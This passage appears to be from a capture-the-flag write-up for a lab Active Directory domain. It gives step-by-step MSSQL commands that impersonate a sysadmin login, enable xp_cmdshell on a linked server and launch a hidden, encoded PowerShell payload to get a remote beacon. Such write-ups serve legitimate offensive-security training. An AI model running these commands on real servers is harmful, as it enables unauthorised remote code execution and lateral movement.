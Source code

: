 ### Retrieve the Flag:

Executing the last query on the domain controller will get you a beacon, and the flag can be found at the specified location.

```Powershell
powershell type C:\Users\Administrator\Desktop\flag.txt
```

Flag: `flag{Running_MSSQL_With_DA_is_Not_Safe}`

---
## Flag 4

To get a Flag 4, just follow the steps where we left last time, on the SQL Server on domain controller of `dev.hackerverse.games` we found that there was a linked server sitting on a domain `hackr.games`.
### MSSQL Commands for Linked Server Exploitation:

1. Impersonate `sys-admin` and retrieve system user:
   ```sql
   EXECUTE AS login = 'sys-admin'; SELECT SYSTEM_USER;
   ```
   This command impersonates the `sys-admin` login and retrieves the system user.

2. Enumerate linked servers and check RPC settings:
   ```sql
   SELECT srvname, srvproduct, rpcout FROM master..sysservers;
   ```
   This SQL query enumerates linked servers and checks their RPC settings.

3. Enable xp_cmdshell on the linked server and execute command to get a beacon:
   ```sql
   EXECUTE AS login = 'sys-admin'; SELECT SYSTEM_USER;
   -- Check if xp_cmdshell is enabled on the linked server
   SELECT * FROM OPENQUERY([SQL-1.HACKR.GAMES], 'SELECT value FROM sys.configurations WHERE name = ''xp_cmdshell''');

   EXEC sp_serveroption @server = 'SQL-1.HACKR.GAMES', @optname = 'rpc out', @optvalue = 'true';

   -- Enable advanced options on the linked server
   EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [SQL-1.HACKR.GAMES];

   -- Enable xp_cmdshell on the linked server
   EXEC ('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [SQL-1.HACKR.GAMES];

   -- Recheck xp_cmdshell setting on the linked server
   SELECT * FROM OPENQUERY([SQL-1.HACKR.GAMES], 'SELECT value FROM sys.configurations WHERE name = ''xp_cmdshell''');

   -- Execute xp_cmdshell command on the linked server
   EXEC ('EXEC xp_cmdshell ''powershell.exe -nop -w hidden -enc "SQB...FAF'';') AT [SQL-1.HACKR.GAMES];
   ```
   These commands enable xp_cmdshell on the linked server and execute a PowerShell payload to get a beacon on SQL server on domain `hackr.games`.
